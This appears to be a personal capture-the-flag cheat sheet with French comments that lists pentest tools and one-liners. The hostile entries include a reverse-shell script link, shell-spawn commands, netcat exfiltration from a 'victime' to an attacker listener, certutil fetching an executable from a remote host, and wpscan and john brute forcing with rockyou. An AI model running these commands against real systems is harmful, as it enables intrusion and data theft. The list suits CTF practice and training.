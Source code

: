 ===========================================

_______________________________ /\ 
\_   ___ \__    ___/\_   _____/ )/______
/    \  \/ |    |    |    __)    /  ___/
\     \____|    |    |     \     \___ \ 
 \______  /|____|    \___  /    /____  >
        \/               \/          \/ 

============================================

[URL] linPEAS : https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS
[URL] winPEAS : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat (.bat)
[URL] netcat for windows : https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip

-------------------------------------------------------------------------------------------------------------------------------------------+

[+] => PAYLOADSALLTHETHINGS     - https://github.com/swisskyrepo/PayloadsAllTheThings (reverse shell, etc...)
[+] => BINARIES EXPLOIT         - https://gtfobins.github.io/
[+] => INFO GATHERING 	        - sudo -l
[+] => PHP REVERSE SHELL        - https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
[+] => SPAWN SHELL USING PYTHON - python3 -c 'import pty; pty.spawn("/bin/sh")'
[+] => SPAWN SHELL USING BASH   - bash -i
[+] => WORDPRESS TOOL           - wpscan => ex (brute force mdp) wpscan --url 10.10.180.74/blog -U admin -P /usr/share/wordlists/rockyou.txt
[+] => TRANSFER FILE VIA NETCAT - [victime] => nc -nv <ip> 1337 < <file_to_transfer> -|- [attacker] =>nc -lnvp 1337 > <file_to_transfer>

-------------------------------------------------------------------------------------------------------------------------------------------+

[CMD] 		=> find / -user root -perm -4000 -exec ls -ldb {} \;
[CMD] 		=> gobuster dir -u <url> -w=/usr/share/wordlists/dirb.../<list>
[CMD] 		=> nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP  (SAMBA)
      smbclient //<ip>/anonymous (-U pour un utilisateurs)
      smbget -R smb://<ip>/anonymous
[CMD] 		=> msfvenom -l payloads | grep windows | grep reverse | grep shell  (exemple)
[CMD] 		=> john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=<format>
[CMD] 		=> sqlmap -r file.txt --dbms=mysql –-dump | (après avoir copier une requête Burp dans un fichier txt)
[CMD] 		=> wget -m --no-passive ftp://anonymous:anonymous@<IP>  (download tout)
[CMD][WINDOWS] 	=> certutil.exe -urlcache -f http://<ip>:<port>/file.exe new_file.exe
[CMD][AD][PS]  	=> Set-ADAccountPassword <user> -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
[CMD][AD][PS]	=> Set-ADUser -ChangePasswordAtLogon $true -Identity <user> -Verbose 
-------------------------------------------------------------------------------------------------------------------------------------------+

[?] Using "-p" on an SUID file will run it with the permission of the owner. Ex if root own a file and you run it (non-root) using "-p" you will run it with root perm


